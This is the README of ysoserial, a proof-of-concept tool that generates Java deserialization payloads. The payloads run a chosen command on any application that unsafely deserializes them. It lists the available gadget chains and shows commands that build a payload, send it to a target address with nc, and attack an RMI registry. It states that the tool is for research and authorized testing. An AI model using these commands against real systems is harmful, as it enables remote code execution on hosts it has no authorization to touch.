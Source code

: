 
# ysoserial 

[![Join the chat at https://gitter.im/frohoff/ysoserial](https://badges.gitter.im/frohoff/ysoserial.svg)](https://gitter.im/frohoff/ysoserial?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge) [![Download Latest Snapshot](https://img.shields.io/badge/download-master--SNAPSHOT-green.svg)](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![](https://github.com/frohoff/ysoserial/blob/master/ysoserial.png)

## Description

Released as part of AppSecCali 2015 Talk ["Marshalling Pickles: how deserializing objects will ruin your day"](http://frohoff.github.io/appseccali-marshalling-pickles/) with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x). 
Later updated to include additional gadget chains for [JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and [Apache Commons Beanutils](https://gist.github.com/frohoff/9eb8811761ff989b3ac0).

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java 
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of objects. 
The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers 
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$  java -jar ysoserial-master-v0.0.4-g35bce8f-67.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'
        Available payload types:
                BeanShell1 [org.beanshell:bsh:2.0b5]
                C3P0 [com.mchange:c3p0:0.9.5.2, com.mchange:mchange-commons-java:0.2.11]
                Clojure [org.clojure:clojure:1.8.0]
                CommonsBeanutils1 [commons-beanutils:commons-beanutils:1.9.2, commons-collections:commons-collections:3.1, commons-logging:commons-logging:1.2]
                CommonsCollections1 [commons-collections:commons-collections:3.1]
                CommonsCollections2 [org.apache.commons:commons-collections4:4.0]
                CommonsCollections3 [commons-collections:commons-collections:3.1]
                CommonsCollections4 [org.apache.commons:commons-collections4:4.0]
                CommonsCollections5 [commons-collections:commons-collections:3.1]
                CommonsCollections6 [commons-collections:commons-collections:3.1]
                FileUpload1 [commons-fileupload:commons-fileupload:1.3.1, commons-io:commons-io:2.4]
                Groovy1 [org.codehaus.groovy:groovy:2.3.9]
                Hibernate1 []
                Hibernate2 []
                JBossInterceptors1 [javassist:javassist:3.12.1.GA, org.jboss.interceptor:jboss-interceptor-core:2.0.0.Final, javax.enterprise:cdi-api:1.0-SP1, javax.interceptor:javax.interceptor-api:3.1, org.jboss.interceptor:jboss-interceptor-spi:2.0.0.Final, org.slf4j:slf4j-api:1.7.21]
                JRMPClient []
                JRMPListener []
                JSON1 [net.sf.json-lib:json-lib:jar:jdk15:2.4, org.springframework:spring-aop:4.1.4.RELEASE, aopalliance:aopalliance:1.0, commons-logging:commons-logging:1.2, commons-lang:commons-lang:2.6, net.sf.ezmorph:ezmorph:1.0.6, commons-beanutils:commons-beanutils:1.9.2, org.springframework:spring-core:4.1.4.RELEASE, commons-collections:commons-collections:3.1]
                JavassistWeld1 [javassist:javassist:3.12.1.GA, org.jboss.weld:weld-core:1.1.33.Final, javax.enterprise:cdi-api:1.0-SP1, javax.interceptor:javax.interceptor-api:3.1, org.jboss.interceptor:jboss-interceptor-spi:2.0.0.Final, org.slf4j:slf4j-api:1.7.21]
                Jdk7u21 []
                Jython1 [org.python:jython-standalone:2.5.2]
                MozillaRhino1 [rhino:js:1.7R2]
                Myfaces1 []
                Myfaces2 []
                ROME [rome:rome:1.0]
                Spring1 [org.springframework:spring-core:4.1.4.RELEASE, org.springframework:spring-beans:4.1.4.RELEASE]
                Spring2 [org.springframework:spring-core:4.1.4.RELEASE, org.springframework:spring-aop:4.1.4.RELEASE, aopalliance:aopalliance:1.0, commons-logging:commons-logging:1.2]
                URLDNS []
                Wicket1 [wicket-util:wicket-util:6.23]
```

## Examples

```shell
$ java -jar ysoserial-0.0.4-all.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:
       
$ java -jar ysoserial-0.0.4-all.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 < groovypayload.bin

$ java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

1. Download the latest jar from [JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar) [![Download Latest Snapshot](https://img.shields.io/badge/download-master--SNAPSHOT-green.svg)](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar) .

Note that GitHub-hosted releases were removed in compliance with the [GitHub Community Guidelines](https://help.github.com/articles/github-community-guidelines/#what-is-not-allowed)

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request
